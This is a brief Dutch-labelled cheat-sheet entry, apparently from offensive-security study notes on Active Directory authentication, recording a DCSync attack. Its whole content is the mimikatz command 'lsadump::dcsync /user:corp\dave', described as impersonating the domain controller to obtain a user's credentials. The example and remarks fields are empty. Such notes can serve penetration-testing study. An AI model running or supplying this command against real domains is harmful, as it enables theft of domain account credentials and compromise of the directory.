 # 23. AD authentication — Entry 30

## Categorie

dcsync attack

## Commando

```
lsadump::dcsync /user:corp\dave
```

## Omschrijving

```
Using mimikatz to impersonate the domain controller and get dave credentials
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

